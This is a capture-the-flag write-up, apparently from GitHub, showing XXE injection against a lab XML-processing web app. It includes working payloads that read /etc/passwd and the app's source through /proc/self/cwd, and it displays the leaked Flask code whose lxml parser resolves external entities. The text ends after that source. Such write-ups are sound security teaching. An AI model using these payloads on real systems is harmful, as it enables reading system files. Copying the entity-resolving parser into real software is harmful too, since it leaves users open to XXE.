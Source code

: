 <img width="582" height="364" alt="Screenshot 2025-08-27 221025" src="https://github.com/user-attachments/assets/7388a500-3e31-4eda-a2db-ca7602028595" />

# Challenge

The challenge gives us an XML “Processor” web app where we can submit arbitrary XML. This immediately suggests XML External Entity (XXE) injection.

<img width="923" height="626" alt="image" src="https://github.com/user-attachments/assets/bb116e36-962d-4c7a-9e19-552babc5b250" />

1. Prove XXE is working

Payload to test reading `/etc/passwd` (classic harmless file):

```
<?xml version="1.0"?>
<!DOCTYPE root [ <!ENTITY x SYSTEM "file:///etc/passwd"> ]>
<root>&x;</root>

```

<img width="898" height="900" alt="image" src="https://github.com/user-attachments/assets/1bbfb36c-9694-448c-b8c8-9598b5fa1806" />

2. Inspect application code

Next, check the app source for hints by reading `app.py` from the current working directory:

```
<?xml version="1.0"?>
<!DOCTYPE root [ <!ENTITY x SYSTEM "file:///proc/self/cwd/app.py"> ]>
<root>&x;</root>

```

<img width="867" height="894" alt="image" src="https://github.com/user-attachments/assets/35b7726f-768d-47a4-95aa-7f49cf49f07a" />

```
<root># app.py
from flask import Flask, request, render_template
from lxml import etree
import time
# CONFIG_FILE_PATH = "/etc/superapp/config.xml"



app = Flask(__name__)


@app.before_request
def slow_down_all_requests():
    time.sleep(0.2)




@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        xml_content = request.form.get('xml', '')
        parser = etree.XMLParser(resolve_entities=True)
        try:
            doc = etree.fromstring(xml_content.encode('utf-8'), parser=parser)
            result = etree.tostring(doc, pretty_print=True).decode('utf-8')
            return render_template('index.html', result=result, xml_input=xml_content)
        except Exception as e:
            return render_template('index.html', error=str(e), xml_input=xml_content)

```